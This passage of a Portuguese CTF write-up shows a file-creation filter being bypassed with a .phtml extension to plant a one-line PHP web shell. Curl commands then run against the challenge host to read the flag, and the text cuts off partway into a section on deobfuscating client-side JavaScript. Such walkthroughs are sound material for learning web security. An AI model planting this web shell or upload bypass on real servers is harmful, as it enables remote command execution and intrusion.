 E lá estava! Esse recurso, além de permitir abrir arquivos
arbitrários, também permitia criar mais arquivos. O
plano agora era claro, criar um .php que executasse
comandos no sistema para mim, escalando assim o LFI para
o bem mais perigoso RCE.

Mas não foi tão simples 🙃. A criação de arquivos bloqueava
as extensões `.php` e `.cgi`. Isso não era um problema pois
também existem outras extensões interpretadas como PHP tipo
a `.phtml`. Agora foi simples, criei um arquivo .phtml com
um scriptzinho php que executava meus comandos:
```php
<?php system($_GET['cmd']); ?>
```

Basta, agora, usar nosso amado curl como o terminal remoto haha:
```bash
> curl http://challenges.ctfd.io:30224/gabriel4.phtml\?cmd\=ls%20/var
003bataasadadafanavnvavavaa_flag.txt
...

> curl http://challenges.ctfd.io:30224/gabriel4.phtml\?cmd\=cat%20/var/003bataasadadafanavnvavavaa_flag.txt
ZUP-CTF{3sse_LFI_f01_d3_m4t4r_haha_}
```

**Flag**

ZUP-CTF{3sse_LFI_f01_d3_m4t4r_haha_}

# Web Application
## Fucking
**Falha**

Mais uma vez.. Lógica no cliente. Dessa vez o código foi,
pelo menos, ofuscado. Mas ainda tá no cliente então da pra
gente explorar haha :shrug:

**Solução**

JavaScript é uma linguagem linda, sério, sabia que é
possível escrever [qualquer código](https://www.youtube.com/watch?v=sRWE5tnaxlI) usando somente `()[]{}/>+!-=\`?
Quando que um Javão velho deixaria a gente fazer isso?!1!!1 Amo JS :)

E.. Foi assim que o autor do site decidiu ofuscar seu código. Existia uma função mais ou menos assim no fonte:
```JavaScript
function validate() {
  /* UM MONSTRO DE CARACTERES AQUI */();
}
```

Dava pra perceber que aquela monstruosidade toda gerava
uma função no final que era chamada ali mesmo dentro da
`validate`. Portanto, foi necessário só copiar todos os
caracteres exceto a invocação do final e colocar no
console javascript e lá estava o código da função em...
Letras dessa vez kkkk:
